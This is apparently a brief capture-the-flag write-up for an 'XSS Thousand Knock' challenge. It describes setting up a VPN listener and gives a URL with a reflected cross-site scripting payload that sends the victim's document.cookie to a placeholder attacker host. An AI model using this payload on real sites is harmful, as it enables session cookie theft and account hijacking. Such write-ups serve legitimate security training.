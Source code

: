 # XSS_Thousand_Knock_Write_up

# Stage 1 (Tutorial)- Set up VPS/VPN, I used my AWS Shadowsock VPN in this case, and I created a python to listen flag coming through my VPN server
# Stage 2
	http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=%22%3E%3Cscript%3Elocation=%22http://YOUR VPN:5000/?%22%2Bdocument.cookie%3C/script%3E
